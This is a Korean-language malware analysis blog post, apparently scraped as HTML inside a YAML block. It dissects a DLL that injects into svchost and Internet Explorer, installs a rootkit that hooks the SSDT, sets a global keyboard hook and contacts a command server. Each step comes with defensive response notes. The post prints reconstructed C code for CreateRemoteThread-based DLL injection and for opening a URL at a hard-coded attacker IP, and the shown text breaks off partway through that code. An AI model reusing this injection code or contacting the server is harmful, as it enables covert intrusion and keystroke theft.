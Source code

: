 ```yaml
    명이 svchost.exe인 경우와 아닌 경우, 서비스로 실행되는 경우에 따라 다른 임무를 수행한다. 일단 svchost.exe에 DLL 인젝션
    됐을 경우에는 다음 역할을 수행한다.\n<ul>\n\t<li>Internet Explorer(iexplore.exe)에 DLL 인젝션</li>\n</ul>\nDLL
    인젝션된 프로세스 명이 svchost.exe가 아닐 때 (e.g. iexplore.exe)는 다음 임무를 수행한다.\n<ul>\n\t<li>DLL에
    있는 SK 함수 호출(키보드 후킹)</li>\n\t<li>악성 서버 접속</li>\n\t<li>루트킷 설치 및 실행</li>\n\t<li>특정
    명령을 받으면 루트킷과 관련된 파일 및 레지스트리 제거</li>\n</ul>\n이 DLL이 서비스로 동작하는 경우에는 다음 임무를 수행한다.\n<ul>\n\t<li>레지스트리
    변조로 인해 로드되지 못한 서비스를 정상적으로 로드</li>\n</ul>\n이제 각 요소를 분석하겠다.\n<h2>2. 최초 실행</h2>\n이
    DLL은 서비스로 로드될 경우와 DLL 인젝션으로 로드된 경우에 따라 다른 임무를 수행한다. 최초에 DLL 인젝션이 되면, 자기자신의 인스턴스(DINSTANCE)를
    가져와서 GetModuleFileName으로 DLL의 경로를 가져온 후, CreateFile-&gt;ReadFile로 자신의 코드를 그대로
    메모리 버퍼에 복사한다. (이 데이터는 추 후 DLL 인젝션에 사용된다.)\n\n버퍼에 복사가 완료되면 자신이 로드된 영역이 어떤 프로세스의
    메모리인지를 확인한다.  자신이 로드된 프로세스 명이 \"SVCHOST.EXE\"일 때와 아닐 때로 나뉘어서 기능이 수행된다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/irykmmww.d1l_dllmain.png\"><img
    class=\"aligncenter size-full wp-image-814\" alt=\"irykmmww.d1l_dllmain\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/irykmmww.d1l_dllmain.png\"
    width=\"715\" height=\"385\" /></a>\n\n일단 SVCHOST.EXE일 때 수행되는 스레드(위 그림에서는 ThreadifSVCHOST)의
    기능을 알아보겠다.\n<h2>3. Internet Explorer(추정)에 DLL 인젝션</h2>\n제목에는 인터넷 익스플로러로 명시했지만
    이는 사실 추정이다. 코드 분석에서 아직 어떤 프로세스인지는 명확하게 정의하지 못했다. 이에 바이너리를 strings로 긁어서 iexplore.exe의
    전체 경로가 있는 것을 보고 어느정도 추정을 하였다. 이 DLL 인젝션은 인터넷에 잘 알려진 방법 중 하나인 CreateRemoteThread의
    인자로 LoadLibrary를 주는 방법을 사용하였다.\n\n악성코드는 사전에 CreateFile로 인터넷 익스플로러의 PID를 얻어온다.
    이 때 ShowWindow를 False로 하여 사용자에게 보이지 않게 한다. 그 후, OpenProcess로 해당 프로세스의 핸들을 획득한다.
    그리고 획득한 핸들을 기반으로 VirtualAllocEx-&gt;WriteProcessMemory-&gt;CreateRemoteThread로
    DLL 인션과 해당 프로세스에 DLL을 로딩할 수 있도록 한다. 잘 알려진 방법이니 간단하게 코드로 표현하겠다.\n<pre class=\"lang:c++
    decode:true\" title=\"DLL Injection\">HANDLE hHandle = OpenProcess(PROCESS_ALL_ACCESS,
    FALSE, Pid);\nvAddress = VirtualAllocEx(hHandle, 0, strlen(str)*2+2, 0x1000, 4);\nWriteProcessMemory(hHandle,
    vAddress, str, strlen(str)*2+2, 0);\n_LoadLibrary = GetProcAddress(GetModuleHandle(\"Kernel32\"),
    \"LoadLibrary\");\nhThread = CreateRemoteThread(hHandle, NULL, NULL,_LoadLibrary,
    vAddress, 0, 0);\nWaitForSingbleObject(hThread, INFINITE);</pre>\nsvchost.exe는
    이렇게 다른 프로세스(인터넷 익스플로러로 추정)에 DLL을 인젝션하고 로드하는 용도로 사용된다.\n\n- 대응 : 비정상적으로 로드된 DLL
    식별\n\n&nbsp;\n\n여기서부터는 svchost.exe가 아닌 경우, 즉, internet explorer에 인젝션된 D1L의 임무를
    다룬다.\n<h2>4. 루트킷 설치 및 SSDT 후킹 명령 전달</h2>\n인터넷 익스플로러에서 악성코드가 로드되면, 악성 루트킷을 설치한다.
    \"%SystemDirectory%driverirykmmww.sys\"를 서비스에 등록하고, 서비스를 실행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/setupnrunrootkitservice.png\"><img
    class=\"aligncenter size-full wp-image-815\" alt=\"setupnrunrootkitservice\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/setupnrunrootkitservice.png\"
    width=\"699\" height=\"434\" /></a>\n\n서비스를 구동하고 나면, DeviceIoControl로 해당 드라이버에
    0x25610008 메시지 코드를 전송한다.  이 코드를 받으면 드라이버(irykmmww.sys)는 SSDT 후킹을 수행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/runrootkithookssdt.png\"><img
    class=\"aligncenter size-full wp-image-816\" alt=\"runrootkithookssdt\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/runrootkithookssdt.png\"
    width=\"738\" height=\"375\" /></a>\n\n그리고 0x25610010 메시지 코드와 함께 인터넷 익스플로러의 PID를
    드라이버에 전송(SendMyPIDtoRootkit)하고, 기존 신뢰성을 가진(Trusted) 서비스의 DLL 경로를 이 악성D1L로 변경(%SystemRoot%System32irykmmww.d1l)하기
    위해 D1L의 이름과 변경할 레지스트리 주소를 루트킷에게 전달한다. 이 과정을 보면 <strong><span style=\"color: #ff6600;\">이
    D1L의 인젝션 시점은 디바이스 드라이버보다 빠르다</span></strong>고 생각해 볼 수 있다.\n\n- 대응 : 서비스 목록 및 디바이스
    드라이버 추출 필요\n<h2>5. DLL에 있는 SK 함수 호출</h2>\n앞서 explorer.exe에 인젝션 되어 있는 irykmmww.dll의
    익스포트 함수인 SK를 호출한다. 호출된 SK 함수는 전역 키보드 후킹을 수행한다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/callskfuncindll.png\"><img
    class=\"aligncenter size-full wp-image-817\" alt=\"callskfuncindll\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/02/callskfuncindll.png\"
    width=\"648\" height=\"360\" /></a>\n\n- 대응 : 메시지 후킹 여부 검증\n<h2>6. 공격자 서버에 연결</h2>\n위
    일련의 과정이 완료되면, 특정 서버에 접속을 시도한다. 일단 악성코드가 가지고 있는 IP 주소 또는 도메인 명을 가져온 다음, 도메인 주소일
    경우 IP로 변환(Extract IP_or_Domain)하고 루트킷에게 IP 주소(SendIPAddressToRootkit)를 전달한다. 그리고나서
    HttpQuery API로 해당 IP에 올바르게 접근이 되는지 확인(HTTPQueryNReadResponse)한다. 이 과정을 거치면, 실제로
    InternetOpenUrl로 악성코드에서 생성한 URL인 \"http://218.85.133.23:89/index.asp?503010000\"
    에 접속한다.\n<pre class=\"lang:c++ decode:true\" title=\"ConnectToMalformedServer\">Extract_IP_or_Domain(IP,
    strIPAddress);\nSendIPAddrsstoRootkit(strIPaddress, TRUE);\nHttpQueryNReadResponse(IP);\n...\nlib
    = LoadLibrary(unknown);\nreturn = InternetOpen();\nwprintf(Url, \"http://%s:%d/%s%d%08d\",
    \"218.85.133.23\", 89, \"index.asp?\", 5030, 10000);\nHandle = InternetOpenUrl(return,
    Url, NULL, NULL, 0x80000100, 0);\nHttpQueryInfo(Handle, 19, Buffer...);\nif(!strcmp(Buffer,
```